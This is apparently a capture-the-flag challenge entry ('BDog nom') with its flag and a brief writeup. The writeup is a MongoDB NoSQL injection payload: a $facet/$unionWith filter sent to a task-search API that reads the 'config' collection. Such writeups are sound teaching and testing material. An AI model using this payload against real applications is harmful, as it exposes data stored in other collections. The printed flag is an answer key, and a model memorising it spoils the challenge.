 # BDog nom

### Description
nom nom

### Difficulty
5/10

### Flag
pctf{bd_nom_nom_nom_n0m_nom_nom_819211278}

### Author
sans909

### Tester


### Writeup

> login first

GET /api/v0/tasks/search

```
Cookie:token=<token>
```

```json
{
    "filter": {
        "$facet": {
            "combined": [
                {
                    "$unionWith": {
                        "coll": "config",
                        "pipeline": []
                    }
                }
            ]
        }
    }
}
```

> multiple ways to do it